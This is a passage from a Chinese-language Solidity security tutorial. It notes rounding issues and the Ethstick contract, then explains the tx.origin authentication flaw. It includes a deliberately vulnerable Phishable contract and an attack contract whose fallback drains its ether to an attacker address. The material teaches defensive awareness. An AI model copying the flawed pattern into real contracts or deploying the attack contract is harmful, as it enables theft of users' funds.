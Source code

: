 ### **真实世界的例子：Ethstick**

我无法找到一个舍入问题导致合约漏洞的好例子，但我相信这里有很多。如果你有一个好的想法，请随时更新。

由于缺乏一个很好的例子，我希望读者能关注 <u>Ethstick</u>，主要是因为我喜欢合约中的酷命名。但是，这个合约并没有使用任何扩展的精确度，它是用 `wei` 来处理的。所以这个合约会有四舍五入的问题，但只会在 `wei` 的层级上出现。它有一些更严重的缺陷，但这些都与区块链上的熵源难题有关。关于 Ethstick 合约的进一步讨论，我推荐你阅读 Peter Venesses 的另一篇文章：<u>许多以太坊合约就是黑客的糖果</u>。

## **Tx.Origin 用作身份验证**

Solidity 中有一个全局变量， `tx.origin` ，它遍历整个调用栈并返回最初发送调用（或交易）的帐户的地址。在智能合约中使用此变量进行身份验证会使合约容易受到类似网络钓鱼的攻击。

有关进一步阅读，请参阅 <u>Stack Exchange Question</u>，<u>Peter Venesses 的博客</u>和 <u>Solidity - Tx.Origin 攻击</u>。

### **漏洞**

授权用户使用 `tx.origin` 变量的合约通常容易受到网络钓鱼攻击的攻击，这可能会诱骗用户在有漏洞的合约上执行身份验证操作。

考虑下面这个简单的合约，

```
contract Phishable {
    address public owner;
    
    constructor (address _owner) {
        owner = _owner; 
    }
    
    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance); 
    }
}
```

请注意，在 [11]行 中，此合约授权 `withdrawAll()` 函数使用 `tx.origin` 。攻击者可以创建下面形式的合约，

```
import "Phishable.sol";

contract AttackContract { 
    
    Phishable phishableContract; 
    address attacker; // The attackers address to receive funds.

    constructor (Phishable _phishableContract, address _attackerAddress) { 
        phishableContract = _phishableContract; 
        attacker = _attackerAddress;
    }
    
    function () { 
        phishableContract.withdrawAll(attacker); 
    }
}
```
